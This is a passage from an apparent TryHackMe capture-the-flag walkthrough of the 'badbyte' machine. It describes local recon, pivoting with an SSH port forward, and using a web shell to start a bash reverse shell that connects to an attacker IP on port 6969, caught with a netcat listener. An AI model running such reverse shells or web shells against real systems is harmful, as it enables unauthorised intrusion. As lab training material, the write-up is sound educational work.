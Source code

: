 there are many thing to note, it is like a puzzle which you need to connect the dot to understand what is going on
1. There is 2 users: **cth** and **errorcauser**
   - **cth** can run `sudo` (based on users & group)
   - **cth** is running apache2 (based on process)
2. there is http server (apache2) running on localhost


The plan is we need to be able to access **badbyte** webserver on port 80 and exploit the webserver to gain access as **cth**. Thereafter we can escalate to root user. BUT to be able to visit **badbyte** webserver, we need to pivot/route our traffic on badbyte to reach localhost. Please google about pivoting/tunneling to understand this technique.


# user
since we already have ssh connection, we can just do ssh tunneling to pivot/route our web traffic to badbyte localhost port 80. To create a ssh tunnel we can run `-L local_port:remote_address:remote_port`. I will use **SSH "Konami Code"** to execute ssh tunneling to the current ssh session, read more about ssh konami [here](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)

```console
errorcauser@badbyte:~$ # Enter
errorcauser@badbyte:~$ # ~C
ssh> -L 8888:localhost:80 
Forwarding port.

errorcauser@badbyte:~$ 
```
before we visit the site, it is a good practice to recon /var/www/html if it is possible so we dont need to run directory bruteforcing on http server.
```console
errorcauser@badbyte:~$ ls /var/www/html/
index.html  shell.php
```
now open our webbrowser and visit localhost:8888/shell.php. It seem like we can use it to execute shell command. when execute `whoami`, we can see that the user is **cth** which mean that our assumption was correct. run this command to gain a reverse shell as **cth** `/bin/bash -c "bash -i >& /dev/tcp/10.8.14.151/6969 0>&1"`


dont forget to start netcat and listen to incoming reverse shell
```console
bibo318@parrot:~$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.54.196] 39836
bash: cannot set terminal process group (948): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

cth@badbyte:/var/www/html$ cd /home/cth
cd /home/cth
cth@badbyte:/home/cth$ ls   
ls
note.txt
user.txt
cth@badbyte:/home/cth$ cat user.txt
cat user.txt
THM{____________}
cth@badbyte:/home/cth$ cat note.txt
cat note.txt
Something fishy is going on with errorcauser lately.
I think I should check what he is up to.
Last time he broke the machine.
I have installed logkeys i will be able to read his keys now.
```